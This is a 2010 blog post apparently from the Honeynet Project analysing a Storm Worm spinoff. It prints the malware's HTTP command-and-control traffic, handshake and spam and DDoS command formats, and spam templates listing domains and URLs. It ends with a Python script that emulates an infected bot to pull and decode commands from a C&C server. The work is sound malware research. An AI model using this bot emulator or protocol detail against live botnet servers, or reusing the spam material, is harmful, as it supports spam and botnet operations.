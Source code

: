 ```yaml
---
title: "A Breeze of Storm"
authors: ["Felix Leder"]
date: "2010-04-28"
categories: 
  - "encryption"
tags: 
  - "storm-worm"
  - "stormfucker"
---
```


Today, Steven Adair from Shadowserver imformed us about a new piece of malware that looks like a new version of the infamous Storm Worm. Storm was one of the first serious peer-to-peer botnets, it was sending out spam for more than two years until its decline in late 2008. Mark Schloesser, Tillmann Werner, Georg Wicherski, and I [Stormfucker](http://www.h-online.com/security/news/item/Storm-Worm-botnet-cracked-wide-open-739607.html>did some work on how to take down Storm</a> back then, so the rumors about a new version caught our interest. Mark, Tillmann, and me started to take the sample apart, and it looks very much like Storm indeed. It even uses the same configuration file, stored under C:\WINDOWS\herjek.config (the same filename as used by the last Storm version), but as the command-and-control channel has been replaced with an HTTP based version, there is no peer list included anymmore. When we looked at it, just contained two lines:

```
[config]
ID=285220200
```

This ID is also stored in the registry under HKLM/SOFTWARE/Microsoft/Windows/ITStorage/Find, together with a mutex name that prevents execution of multiple instances of the malware on one machine.

[image:538 align=center node=538 size=original]

Just like Storm, this new malware decompresses itself into a heap section and jumps to the unpacked code. We just dumped the heap section to a file and fixed the imports to get an executable we can analyze conveniently.

Although this is already pretty good evidence that the two specimens are related, the question remains whether this is really a new Storm version, so let's have a look at the actual functionality. We compared the last version of storm to the new samples. Around 2/3s of the functions in the new sample are simply copy&paste from the last storm code base. Since the source code of storm has never been public, the same team of developers has finally created a new variant or sold it's code.
The original version was rather large, having more than 800 function. A large portion of this was the P2P code. This is missing completely in the new version and the actual command protocol is based on HTTP instead of plain TCP connections. We wonder if they don't rely on P2P anymore because of the attack implemented in

The HTTP request looks like this:

```
POST /aio.jpg HTTP/1.1 Content-Type: application/x-www-form-urlencoded User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windoss NT 5.1; SV1) Host: [sanitized] Content-Length: 85 Connection: Keep-Alive Cache-Control: no-cache
```

```
a=eNozrFNMLC5OLMnMz6tTDM/MS8kvL1aICFAITi0qy0xOVQhITM5WMKpTNLQwMbG0tDQwNQeywcgAAGCpEo0HTTP/1.1 200 OK Server: nginx/0.7.65 Date: Tue, 27 Apr 2010 13:00:30 GMT Content-Type: text/html; charset=windows-1252 Transfer-Encoding: chunked Connection: close X-Powered-By: PHP/5.3.2

78 AAAAXnheDYo5DsAgDATfwgNY2QaEeQ5HkgaRgtS8PS5Wox1NHXv6TJ5D9hxtQWEKe91dGLv1Z76tTqzrOy4TLISFRj2OjuOSIFEgpIj2hQrUFCs4/dVnGE0= 0
```

All parameters and responses are base64 encoded and gzipped. Just like in the original Storm C&C protocol. The IP address of the server is hardcoded in the binary. Well, not really in the code but appended in encrypted form. The encryption is XTEA - the same cryptor used in early versions of Storm's packer.

The new version runs as "asam.exe". So, the authors have changed the executable's filename, but they either didn't look in the source code or were too lazy to change the name of the config file.

One method of command & control is implemented via HTTP requests. While looking at those requests we found another clue that this is actually a spinoff of Storm. The User-Agent is set to "Mozilla/4.0 (compatible; MSIE 6.0; Windoss NT 5.1; SV1)" which includes the (intended?) typo "Windoss" instead of "Windows" (this has already been mentioned by Steven, also). The requested path on the server consists of three random letters concatenated with a random choice from gif, jpg, htm extensions.

Also notable is the use of nginx as the web server as revealed by "Server: nginx/0.7.65" in the response. This is probably then relaying the request to upper tier servers in the C&C structure.

The actual command protocol is identical to the original Storm protocol. It consists of a handshake with two phases.

Stage 1 looks the following: `Postdata: 1~!VM1~!Windows XP Service Pack 3~!82647280~!1~!1~!0 ---- START Response data ---- secretserver.internet.ru~!1.2.3.4~!0~!195.242.208.40~!209.85.218.15`

Sent is the command "1", the machine name, operating system version, and an ID which identifies the machine in the further communication. It's like a session key used in HTTP application. The reponse is a reverse lookup of the public IP address of the host, the public IP itself, and other servers, like a Google MX.

Stage 2 looks the following:

`Postdata: 2~!82647280~!1~!0~!0 ---- START Response data ----`

Many people thought that this stage is useless. Actually, we found an "update" command in this stage of the handshake, which we used in our "Stormfucker", two years ago.

After this initial handshake, different requests for Spam (command 3) and DDoS attacks (command 6) are sent to the server.

The request for DDoS target is shown in the following. The response is empty (IP address: 0.0.0.0). In case of active DDoS targets, the IP address can be seen here.

`Postdata: 6~!82647280~!1~!0 ---- START Response data ---- 0.0.0.0:0;0.0.0.0:0;1;1 0.0.0.0:0;0.0.0.0:0;2;1`

The spam part looks the following. The client sends the spam-request command and the server returns the spam-templates, including faked mail server versions, subjects, receipients, target-domains, ...

```
Postdata: 3~!82647280~!1~!~! ---- START Response data ---- 5~!1272366542~!Date: %^D^% From: "%^C2%^Fnames^%^%" <%^V2^%@%^C1%^Fdomains^%^%> MIME-Version: 1.0 To: %^0^% Subject: %^Fpharma2^% Content-Type: text/plain; charset=%^Fcharset^% Content-Transfer-Encoding: 7bit Message-ID: <%^Z^%.%^R1-9^%0%^R0-9^%0%^R0-9^%0%^R0-9^%@%^V1^%>
```

```
%^Forder.txt^% %^Frxmeds.txt^% online today! %^Fbrowse.txt^% our web site today -> %^Frxdomains2.txt^%

~!~!eximver~!1269613000~!4.04 4.05 ... ~!domains_old~!1271522172~!007-jamesbond.com 3rivers.net 800loadcel.com ... zzum.ro ~!datingURLOLD~!1271796799~!http://12n3.com/2414 http://12n3.com/2415 ... http://vilasta.com/?yMzZuoUt ... http://wapurl.co.uk/?YCLUEZM ~!shemaleBabe~!1272144785~!babes sexy cute hot nice ~!pharma2~!1272305961~!Disappointed with your bad performance in bed? Step up your performance in bed! for the best performance in bed.. ... Want great sex? Get.. ~!datingURLNew~!1272148944~!http://www.odun.net/78774 http://yiyd.com/457991/ ... http://fytopavenukyz.my
```

Mark took some time to write a command fetcher and decoder. Have fun with it :) `#!/usr/bin/env python`

```python
import os, sys, urllib, urllib2, string, random, base64, zlib, datetime

extensions = ['.gif', '.jpg', '.htm']

def make_url(url): return url + ''.join([random.choice(string.lowercase) for i in range(3)]) + random.choice(extensions)

def get_url(turl, pdata): req = urllib2.Request(turl, urllib.urlencode(pdata)) req.add_header('Content-Type', 'application/x-www-form-urlencoded') req.add_header('Cache-Control', 'no-cache') req.add_header('User-Agent', 'Mozilla/4.0 (compatible; MSIE 6.0; Windoss NT 5.1; SV1)') r = urllib2.urlopen(req) c = r.read() return c

def decode(raw): a = base64.b64decode(raw) b = zlib.decompress(a[a.find('x'):]) return b

def fetch(url, cmd): pdata = [('a', base64.b64encode(zlib.compress(cmd)).replace('=','') ),] furl = make_url(url) print ' Fetching', furl c = get_url(furl, pdata) print ' -> got', len(c), 'bytes' return c

def randomstr(length): return ''.join([random.choice(string.letters) for i in range(length)])

def randomdigits(length): return ''.join([random.choice(string.digits) for i in range(length)])

if __name__ == '__main__': from optparse import OptionError from optparse import OptionParser

version = """-------------------------- HTTP Command client for Storm worm 2 (supposedly) Version 1, by Honeynet Project --------------------------""" usage = '%s [-t target]' % sys.argv[0] parser = OptionParser(version=version, usage=usage)

parser.add_option('-t', dest='target', help='hostname/ip') (options, args) = parser.parse_args()

if not options.target: parser.print_help() sys.exit(1)

url = 'http://{0}/'.format(options.target)

seqnr = randomdigits(8) requests = [ '1~!{0}~!Windows XP Service Pack 3~!{1}~!1~!1~!0'.format(randomstr(8),seqnr), '2~!{0}~!1~!0~!0'.format(seqnr), '6~!{0}~!1~!0'.format(seqnr), '3~!{0}~!1~!~!'.format(seqnr), ]

print version print 'Using C&C URL', url

now = datetime.datetime.now() print 'Storing results in directory', str(now)

for r in requests: cmd = r[0] raw = fetch(url, r) dec = decode(raw) if not os.path.exists(str(now)): os.mkdir(str(now)) fpath = os.path.join(str(now), 'cmd_' + cmd + '.txt') fd = open(fpath, 'w') print >>fd, 'Requesting cmd {0} on {1}:'.format(cmd, url) print >>fd, 'Postdata:', r print >>fd, '---- START Response data ----' fd.write(dec) fd.close()

print '-> Done.' sys.exit(0)
```
